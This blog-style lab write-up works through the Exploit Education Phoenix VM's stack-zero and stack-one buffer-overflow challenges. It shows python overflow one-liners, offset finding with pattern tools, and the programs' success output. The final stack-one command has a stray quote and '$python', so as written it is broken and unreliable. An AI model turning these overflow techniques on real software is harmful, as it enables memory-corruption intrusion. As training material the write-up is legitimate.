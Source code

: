 ```yaml
---
title: "Phoenix"
date: 2020-03-23T11:24:34-04:00
draft: false
description: "Adventures in Learning ROP (Return Oriented Programming) | Using Exploit-Exercises Phoenix VM Image"
---
```


**Description:** 

The Phoenix VM Image can be found here:  https://exploit.education/phoenix/

The virtual machine containers a number of vulnerable executables that allow students to learn stack, format-string, and heap-based overflows. The stack series contains executables stack 0-6. Format string vulnerabilities include format 0-4, and the heap vulnerabilitites include head 0-3.  

# Stack 0

Running ./stack-zero provides us with a place to enter some data. Entering a random sequence "AAAA" gives us the output:  ```Uh oh, 'changeme' has not yet been changed. Would you like to try again?```

Trying to send the program even more data (since this is a BoF lab) results in a successful completion of the challenge. 
```
python -c 'print "A" * 100' | ./stack-zero

Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```


# Stack 1  

```bash
pattern_create.rb -l 100
```  

```bash
./stack-one Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A  

Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x63413163, we want 0x496c5962
```

```bash
pattern_offset -l 0x63413163

[*] Exact match at offset 64  
```  

Since we know there is a buffer size of 64 before we write to the changeme address space, we can write 64 bytes of garbage, followed by the intended value to store, written in little-endian so that it can be properly stored in memory. 

```bash
python -c 'print "A" * 64 + "\x62\x59\x6c\x49"'
```

The above will print 64 A's followed by the little-endian address.  

We can pass this to the stack-one executable as such:  

```bash
./stack-one $($python -c 'print "A" * 64" + "\x62\x59\x6c\x49"')

Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value  
```








